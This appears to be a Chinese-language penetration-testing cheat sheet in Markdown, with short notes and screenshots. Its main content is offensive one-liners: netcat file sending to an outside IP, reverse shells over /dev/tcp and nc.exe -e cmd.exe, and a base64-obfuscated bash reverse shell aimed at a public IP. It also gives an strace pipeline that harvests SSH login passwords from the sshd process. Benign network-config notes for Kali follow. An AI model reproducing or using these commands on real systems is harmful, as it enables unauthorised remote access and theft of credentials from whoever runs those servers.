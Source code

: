 发送文件的命令<br />nc 192.168.201.1 7777 < toprcms.war


<a name="OKTPv"></a>
### 反弹shell
Shell类型: sh、ash、bsh、csh、ksh、zsh、pdksh、tcsh、bash<br />有时候bash不能用，用tcsh、sh就弹成功了

/usr/bin/tcsh -i >& /dev/tcp/192.168.110.78/6767 0>&1<br />exec /bin/sh 0</dev/tcp/192.168.99.242/1234 1>&0 2>&0

**base加密反弹shell(通常用于java**<br />bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTAuNDAuMTk5LjIwMC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}

nc反弹windows<br />nc.exe  -e cmd.exe  ip port 
<a name="VDs3t"></a>
### 批量抓密码命令

```c
strace -xx -fp `cat /var/run/sshd.pid`  2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1625533304371-49104b10-6d03-4565-8875-6ca36463249e.png#height=359&id=n9o5e&originHeight=479&originWidth=1431&originalType=binary&ratio=1&rotation=0&showTitle=false&size=47015&status=done&style=none&title=&width=1073)


<a name="eLpCs"></a>
### 统计数量
wc<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611332743892-de089535-9e06-4f54-ad10-c582c6159aeb.png#height=153&id=tDJ01&originHeight=306&originWidth=1089&originalType=binary&ratio=1&rotation=0&showTitle=false&size=214834&status=done&style=none&title=&width=544.5)

<a name="E5HLQ"></a>
### TCP后门
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1622817472277-798ea3d3-7408-4710-bd2e-885d79933b51.png#height=321&id=OkzBp&originHeight=427&originWidth=674&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29838&status=done&style=none&title=&width=506)
<a name="EYwBy"></a>
### 关于kali双网卡配置的问题
一般分eth0、eth1两张网卡。<br />如果eth0已经有桥接的ip了，就只需要操作eth1的ip配置就行<br /># vim /etc/network/interfaces  <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626432631459-a29a0c0c-6739-47c3-bfa0-ba70b1899a74.png#height=178&id=i0aP4&originHeight=237&originWidth=586&originalType=binary&ratio=1&rotation=0&showTitle=false&size=74342&status=done&style=none&title=&width=440)
```
#auto lo
iface lo inet loopback
auto eth1
iface eth1 inet static
address 192.168.201.111
netmask 255.255.255.0
gateway 192.168.201.1
```
# systemctl restart networking 网络重启<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626432785140-03974cf4-f785-4af3-9f26-c4be84d7d288.png#height=316&id=O2k8v&originHeight=421&originWidth=658&originalType=binary&ratio=1&rotation=0&showTitle=false&size=184395&status=done&style=none&title=&width=494)
